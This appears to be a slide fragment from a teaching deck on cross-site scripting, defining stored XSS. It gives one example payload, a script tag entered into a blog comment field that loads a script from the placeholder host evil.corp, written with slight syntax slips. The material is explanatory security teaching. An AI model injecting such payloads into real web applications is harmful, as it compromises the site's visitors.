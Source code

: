 ![bg 70%](./resources/reflected_xss_diagram.png)

---

# Stored (persistent) XSS attack

Stored XSS generally occurs when user input is stored on the target server, such as in a database, in a message forum, visitor log, comment field, etc. And then a victim is able to retrieve the stored data from the web application without that data being made safe to render in the browser.

 Instead of a decent comment on the blog's input field, the attacker write:
```html
<script src='https//evil.corp/badscript.js'/>
```

---
